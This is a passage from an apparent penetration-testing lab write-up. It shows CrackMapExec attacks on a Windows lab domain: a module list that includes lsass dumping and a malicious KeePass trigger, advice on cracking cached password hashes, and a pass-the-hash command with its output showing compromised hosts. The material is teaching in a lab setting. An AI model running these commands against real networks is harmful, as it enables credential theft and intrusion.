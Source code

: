 We can always try to crack DCC passwords with `hashcat`. If we can crack an old
hash, we may get the current password by simply exchanging a year, incrementing
a number at the end or adding the same special character one more time. (This
happens often in case of too frequent demands for password changes.)



**List available modules**

`crackmapexec smb -L` provides a list of all available modules for the SMB
protocol. There is even a tool to find `Keepass` database files, which can be
cracked offline (as reported by TCM).

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb -L                                                                                                                  
[*] bh_owned                  Set pwned computer as owned in Bloodhound
[*] dfscoerce                 Module to check if the DC is vulnerable to DFSCocerc, credit to @filip_dragovic/@Wh04m1001 and @topotam
[*] drop-sc                   Drop a searchConnector-ms file on each writable share
[*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI
[*] enum_dns                  Uses WMI to dump DNS from an AD DNS Server
[*] get_netconnections        Uses WMI to query network connections.
[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
[*] handlekatz                Get lsass dump using handlekatz64 and parse the result with pypykatz
[*] hash_spider               Dump lsass recursively from a given hash using BH to find local admins
[*] impersonate               List and impersonate tokens to run command as locally logged on users
[*] install_elevated          Checks for AlwaysInstallElevated
[*] ioxidresolver             Thie module helps you to identify hosts that have additional active interfaces
[*] keepass_discover          Search for KeePass-related files and process.
[*] keepass_trigger           Set up a malicious KeePass trigger to export the database in cleartext.
[*] lsassy                    Dump lsass and parse the result remotely with lsassy

(...)
```

Among these modules, `lsassy` should be our number 1. It prints out secrets
that are stored in the RAM of a machine. Unfortunately, the program crashes when
we run `lsassy` as demonstrated in TCM's video. His recommendation is to stop
the script with `<Ctrl-C>` if it hangs for a few seconds without results. (See
the screenshot of the `lsassy` module for a successful extraction of an `NTLM`
hash from the LSASS data in the RAM of the respective machine.)

```
┌──(kali㉿kali)-[~]
└─$ sudo crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.4        445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
```